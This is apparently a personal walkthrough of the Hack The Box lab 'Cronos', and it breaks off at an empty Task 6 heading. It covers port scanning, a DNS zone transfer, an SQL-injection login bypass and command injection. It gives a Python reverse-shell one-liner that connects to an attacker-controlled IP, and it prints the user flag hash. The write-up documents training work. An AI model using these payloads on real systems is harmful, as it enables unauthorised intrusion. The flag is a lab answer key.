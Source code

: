 ![image](https://github.com/user-attachments/assets/af5527ad-6bb7-4c9a-87cb-d4a16eaab9d4)# Tasks

[**1. How many TCP ports are listening on Cronos?**](#task-1)

[**2. What subdomain of cronos.htb is serving a login page over HTTP?**](#task-2)

[**3. What is the heading at the top of the webpage once authenticated?**](#task-3)

[**4. What user is the website on Cronos running as?**](#task-4)

[**5. User Flag**](#user-flag)

[**6. What is the full path to the file passed to php in a cronjob that runs every minute as the root user?**](#task-6)

[**7. **](#task-7)

[**8. Root Flag**](#root-flag)

# Tools Used

- nmap
- dig

# Skills Used

-

# Solutions

## Task 1

You know the drill:

```
nmap -sCV [IP Address]
```

![image](https://github.com/user-attachments/assets/44fa3962-a8ac-4b2d-8206-2f455c8cbcdd)

**Answer: 3**

## Task 2

First off, let's put that domain name into _/etc/hosts_, like so:

![image](https://github.com/user-attachments/assets/f9d9ae5e-ff2a-40cb-bdd3-c4a04e3628a6)

We can add the subdomains to it later.

Anyways, the next part took me about 30 minutes, but with [this](https://medium.com/disruptive-labs/a-penetration-testers-guide-to-sub-domain-enumeration-7d842d5570f6) and [this](https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/),
I got a lead on what I could do to conduct the subdomain enumeration.

This is new for me so I'll explain in detail as best as I can.

So what I used for the subdomain enueration was a _DNS Zone Transfer_. As far as I understand, it's a way to transfer data between two _DNS servers_. I'm not exactly sure how it works, but for now, that much info will do.

Knowing that, I can use _dig_ via _AXFR_ (protocol used for the _DNS Zone Transfer_) to get a list of subdomains with the targeted domain name.

To do that, I need to use this command:

```
dig axfr @[First DNS Server/Target Server IP Address] [Target Domain Name]
```

Which looks like this:

![image](https://github.com/user-attachments/assets/e283876b-27a2-409c-a26a-8b81f8dabd1b)

Anyways, after finding the subdomains, I instinctively went for _admin.cronos.htb_ lmao.

Add that to _/etc/hosts_, and turns out I was right.

![image](https://github.com/user-attachments/assets/d32b01d1-856c-445f-91ba-b234d7b32cc8)

**Answer: admin.cronos.htb**

## Task 3

Now before we can actually answer that, we do need to be authenticated, like the task said.

Considering _SQLi_ was mentioned as part of the machine, I assumed this is where to do it, considering I'm at a login page.

I tried the default ```admin:' or 1=1--```, but that didn't work.

After that, I looked at [**Chad Tib3rius Cheatsheet**](https://tib3rius.com/sqli.html) to see what I can do about it, and found this:

![image](https://github.com/user-attachments/assets/a446234a-a11e-4a6d-8d17-baaf66da08d9)

Tried to add that to the credentials like this ```admin:' or 1-1-- -```, but that still didn't work.

Then I thought maybe I should try that on the _username_, considering the rest of the query will get commented out anyway, since the query most probably looks like this:

```
SELECT * FROM users WHERE username = 'user' AND password = 'pass';
```

Turns out I was right lmao.

![image](https://github.com/user-attachments/assets/94dcfd93-fa5f-4a78-9756-ecf34d9bed52)

Anyways, looks like I can do _command injection_ here now, but first, I gotta answer the question, which is probably...

**Answer: Net Tool v0.1**

## Task 4

Now we can do _command injection_.

**Bada bing**

![image](https://github.com/user-attachments/assets/692118ce-0f94-403a-9c2f-b63528158568)

**Bada boom**

![image](https://github.com/user-attachments/assets/d0a77d80-b7bf-41c8-917f-e8da59aca102)

**Answer: www-data**

## User Flag

For this, I'd rather get my own shell, so let's head over [**here**](https://www.revshells.com/) to get one.

Specifically this script btw:

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("[IP Address]",[Port]));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'
```

Had to use ```which python``` in the web shell to make sure _python_ was there lol.

Anyways, after I got that, I decided to stablize it using this:

```
1. python -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. CTRL + Z to background
4. stty raw -echo; fg (fg = foreground)
```

Result:

![image](https://github.com/user-attachments/assets/f1e8584a-ec57-4ff2-89b8-22734ef74b45)

**P.S.** Ignore the fact I did step 2 first lmao.

Now that we have a proper shell, let's actually get the flag.

Did ```find / -name user.txt -type f``` to find where it is, forgetting to add in ```2>/dev/null``` to get rid of all the other useless info, and found the flag.

![image](https://github.com/user-attachments/assets/11d1f311-3cfd-4a28-8957-ef03abaf5ef2)

And yes, I only did it after to show that it was clean lol.

**Answer: 94d561b764b68d7beaa6749157357fe5**

## Task 6

